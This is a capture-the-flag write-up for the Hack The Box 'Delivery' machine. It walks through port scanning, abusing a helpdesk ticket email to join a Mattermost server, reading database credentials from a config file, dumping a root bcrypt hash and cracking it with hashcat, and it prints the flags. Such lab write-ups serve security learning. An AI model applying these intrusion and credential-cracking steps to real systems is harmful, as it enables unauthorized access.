









Enumeration
The initial nmap scan reveals that there are 3 ports open:
1
2
3
22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open http nginx 1.14.2
8065/tcp open unknown
I was unsuccessful in researching what program runs on this port in my OSINT so I headed over to the box site, http://10.10.10.222. Clicking around on the site brings us to the contact us page which shows:

From this page, we can also see the domain: delivery.htb, which we should add to our /etc/hosts file. Additionally, we can now deduce that the service runing on port 8065 is a MatterMost server.
Heading over to helpdesk.delivery.htb shows us a system for creating support tickets. I attempt to open a new ticket to see what the process is like and if there are any potential attack vectors.

The inputs get sanitized so I wasn’t able to perform injecion of PHP code, and SQL injection didn’t work either. After filling out the form with fake/nonsense information, we are shown the following message:

This is interesting because it would seem that any message emailed to that support account will be printed in our support thread. This an important detail to note. Since I was not able to find any other attack vectors, let us see what else we can find. Checking out the sign in page leads us to an agent sign-in link, which in turn takes us to the OSTicket log in portal. I tried SQL injection again but no luck.
Now lets check out the MatterMost server. It also greets us with a log in page, but we have the ability to create a new account, or reset a password. From the homepage of delivery.htb, we know that we need an address with the domain of @delivery.htb in order to access this content.

Getting User
My first thought was that since we already know of a @delivery.htb address (the one given to us after making a support ticket) then we could potentially request a password reset using that email on the MatterMost server, and then we will receive the link in the support thread, and BOOM. However, this did not work. So my next step was try to use the email account to sign up on MatterMost.

It worked! After we log into the server we find a message channel with credentials to the OSTicket server and a hint as to what the password of root might be.

Lets log into the server with the provided credentials and capture the user flag.
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
[kevin@ryzen ~]$ ssh maildeliverer@delivery.htb
maildeliverer@delivery.htb's password:
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jan 25 07:15:19 2021 from 10.10.14.10
maildeliverer@Delivery:~$ ls
user.txt
maildeliverer@Delivery:~$ cat user.txt
c90e841382f400b84697616bb877a272
maildeliverer@Delivery:~$
Getting Root
From the message in the MatterMost channel, we can assume that we are now looking for hashes that contain the root password. I went back to the OSTicket login portal to try and obtain to clues about where to look. Fortunately, I found a lot.

My next objective is find a MySQL database that might contain password hashes. I start by running the following command to locate where the MatterMost files are stored.
1
2
3
4
5
maildeliverer@Delivery:~$ find / -iname mattermost 2>&1 | grep -v "Permission denied"
/opt/mattermost
/opt/mattermost/bin/mattermost
/var/lib/mysql/mattermost
maildeliverer@Delivery:~$
I do not have sufficient permissions to access the last directory in the list. I decide to check out the first directory, /opt/mattermost. There I find a config directory with a config.json file inside. We are given a user and password to access the SQL database.

1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
maildeliverer@Delivery:~$ mysql -u mmuser -p
Enter password:
Welcome to the MariaDB monitor. Commands end with ; or \g.
Your MariaDB connection id is 159
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
MariaDB [(none)]> show databases;
+--------------------+
| Database |
+--------------------+
| information_schema |
| mattermost |
+--------------------+
2 rows in set (0.001 sec)
MariaDB [(none)]> use mattermost;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Database changed
MariaDB [mattermost]>
Exploring the mattermost db reveals a Users table that contains username and password data. Most importantly, we get the root hash:

root: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
Hashid reveals this to most likely be using Blowfish encryption, mode 3200. I echo the hash into pass.txt and decide to use the best64 rule with hashcat. I also add PleaseSubscribe! to pass.txt since we know that the real password is a variation of it.
1
2
3
[kevin@ryzen Delivery]$ hashcat -m 3200 hash.txt pass.txt -r /opt/hashcat/rules/best64.rule --show
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
[kevin@ryzen Delivery]$
Now all that remains is to su into root and obtain the root flag.
1
2
3
4
5
6
maildeliverer@Delivery:~$ su root
Password:
root@Delivery:/home/maildeliverer# cd
root@Delivery:~# cat root.txt
cd4d8dba1cea379c59a9795f553674b2
root@Delivery:~#